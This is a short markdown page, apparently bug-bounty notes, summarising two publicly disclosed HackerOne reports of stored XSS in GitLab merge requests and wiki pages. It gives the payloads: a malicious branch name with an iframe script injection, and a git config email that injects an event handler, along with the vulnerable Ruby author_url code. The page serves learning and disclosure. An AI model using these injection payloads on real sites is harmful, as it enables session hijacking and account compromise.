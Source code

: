 # Store



* [**GitLab**](https://hackerone.com/gitlab) disclosed a bug submitted by [**yvvdwf**](https://hackerone.com/yvvdwf) \
  [Stored-XSS in merge requests](https://hackerone.com/reports/977697)13 Jul 2021&#x20;

> 1. Create a new project and check option "Initialize repository with a README"
> 2. Create a new branch with name `'> <iframe/srcdoc='<script/src=/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>`
> 3. `Push and merge this request from the new branch to master`
> 4. `bingo!`

##

* [**GitLab**](https://hackerone.com/gitlab) disclosed a bug submitted by [**yvvdwf**](https://hackerone.com/yvvdwf) \
  [Stored-XSS on wiki pages](https://hackerone.com/reports/1087061)13 Jul 2021&#x20;

> &#x20;\`author_url\` in  show.html.haml#L10 not been sanitized._
>
> 1. _Clone wiki reponsitory of an existing project or a new one._
> 2. _Go to inside \`test.wiki\` directory and add the following lines at the end of .git.config file_
> 3. _Moddify/create any wiki page and push it into gitlab server_
> 4. _open the wiki, bingo._
>
> ```
> Wrap lines Copy Download
> [user]
> 	name = anyname
> 	email = "#' style=animation-name:blinking-dot onanimationstart=alert(document.domain) other"
> ```

the \`wiki_page_versoin.rb\` :

```ruby
    delegate :message, :sha, :id, :author_name, :author_email, :authored_date, to: :commit

      def author_url
        user = ::User.find_by_any_email(author_email)
        user.nil? ? "mailto:#{author_email}" : Gitlab::UrlBuilder.build(user)
      end
```
